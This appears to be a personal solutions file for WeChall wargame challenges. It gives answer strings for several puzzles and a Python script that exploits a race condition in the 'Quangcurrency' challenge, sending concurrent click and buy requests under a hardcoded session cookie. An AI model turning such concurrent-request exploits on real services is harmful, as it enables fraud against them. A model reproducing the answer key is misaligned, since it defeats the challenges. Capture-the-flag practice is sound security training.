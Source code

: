 ### bill for Bill (Cracking, Storyline)

```
passwordsuxx
```

### Trivia (Research, Fun)
Google ?

http://www.wechall.net/challenge/trivia/74k37h053/


### PHP 0816 (Exploit, PHP)
http://www.wechall.net/challenge/php0816/code.php?mode=hl&src=solution.php

```
AnotherCodeflowMistake
```


### Quangcurrency (Exploit)
Competition conditions

```py
import requests
import threading
import lxml.html
import re

cookie = {'WC': '10471295-40857-YcVFssDdDsopRpYF'}


def click():
    requests.get('http://www.wechall.net/challenge/quangcurrency/click.php', cookies=cookie)


def buy():
    requests.get('http://www.wechall.net/challenge/quangcurrency/buy.php', cookies=cookie)


r = re.compile(r'\w+: (\d+)')
while True:
    t1 = threading.Thread(target=click)
    t2 = threading.Thread(target=buy)

    t1.start()
    t2.start()
    t1.join()
    t2.join()

    text = requests.get('http://www.wechall.net/challenge/quangcurrency/stats.php', cookies=cookie).text
    d = lxml.html.document_fromstring(text)
    msg = d.xpath('//div[@class=\'box_c\']')[0]
    a, b, c = r.findall(msg.text_content())
    print 'money: %s, click: %s' % (a, b)
    print 'get %s item ' % c

    if int(c) >= 10:
        break

    if int(a) < 1000 or int(b) >= 50:
        print 'reset'
        requests.get('http://www.wechall.net/challenge/quangcurrency/buy.php', cookies=cookie)
```
